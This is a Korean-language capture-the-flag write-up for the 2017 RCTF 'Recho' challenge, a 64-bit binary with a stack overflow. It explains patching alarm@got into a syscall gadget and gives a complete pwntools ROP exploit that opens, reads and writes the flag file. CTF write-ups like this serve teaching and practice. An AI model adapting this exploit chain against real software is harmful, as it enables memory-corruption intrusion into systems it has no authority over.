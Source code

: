 ```yaml
---
title: "2017 RCTF Recho"
date: 2020-1-3
ctf: RCTF
layout: post
---
```


64비트 바이너리가 주어진다.

```
Recho: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/l, for GNU/Linux 2.6.32, BuildID[sha1]=6696795a3d110750d6229d85238cad1a67892298, not stripped
```

메인에서는 원하는만큼 크기를 정하고 그 크기만큼 입력받을 수 있다.

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char nptr; // [rsp+0h] [rbp-40h]
  char buf[40]; // [rsp+10h] [rbp-30h]
  int v6; // [rsp+38h] [rbp-8h]
  int v7; // [rsp+3Ch] [rbp-4h]

  Init();
  write(1, "Welcome to Recho server!\n", 0x19uLL);
  while ( read(0, &nptr, 0x10uLL) > 0 )
  {
    v7 = atoi(&nptr);
    if ( v7 <= 15 )
      v7 = 16;
    v6 = read(0, buf, v7);
    buf[v6] = 0;
    printf("%s", buf);
  }
  return 0;
}
```

flag라는 파일을 읽어오는 문제다. 근데 .data 영역에 flag라는 문자열이 존재했다.

flag라는 파일을 읽기 위한 함수가 딱히 존재하지 않았다. 그냥 syscall을 이용해서 orw해주면 되는 문제다.

근데 int 0x80이 바이너리 내에 존재하지 않는다. 나 같은 경우에는 alarm함수의 syscall을 이용했다.

![](https://user-images.githubusercontent.com/32904385/71731844-12db9880-2e89-11ea-83d5-b54405616f5b.png)

alarm+5 위치에 syscall이 존재했다. `add byte ptr [rdi], al ; ret` 가젯을 이용해서 rdi에 alarm@got를 넣어주고 al 값에 5를 넣어주고 alarm을 호출하면 syscall이 호출될 것이다. 이를 이용해서 orw를 해주면 된다.

> exploit.py

```python
from pwn import *

context.arch = 'amd64'
context.log_level = 'debug'
e = ELF('./Recho')
p = process('./Recho')
prdi = 0x00000000004008a3 # pop rdi ; ret
prax = 0x00000000004006fc # pop rax ; ret
add_rdi_al = 0x000000000040070d # add byte ptr [rdi], al ; ret
prsi_r15 = 0x00000000004008a1 # pop rsi ; pop r15 ; ret
prdx = 0x00000000004006fe # pop rdx ; ret
flag = 0x0000000000601058
syscall = e.plt['alarm']

# alarm+5 syscall
payload = 'A'*48
payload += 'realsung'
payload += p64(prdi) + p64(e.got['alarm'])
payload += p64(prax) + p64(0x5) + p64(add_rdi_al)

# sys_open(flag,0,0)
payload += p64(prdi) + p64(flag)
payload += p64(prsi_r15) + p64(0) + p64(0)
payload += p64(prdx) + p64(0)
payload += p64(prax) + p64(0x2) + p64(syscall)

# sys_read(3,bss,100)
payload += p64(prdi) + p64(3)
payload += p64(prsi_r15) + p64(e.bss()) + p64(0)
payload += p64(prdx) + p64(100)
payload += p64(prax) + p64(0) + p64(syscall)

# sys_write(1,bss,100)
payload += p64(prdi) + p64(1)
payload += p64(prsi_r15) + p64(e.bss()) + p64(0)
payload += p64(prdx) + p64(100)
payload += p64(prax) + p64(1) + p64(syscall)

p.sendlineafter('server!\n',str(1000))
p.send(payload)

p.shutdown()
p.interactive()
```


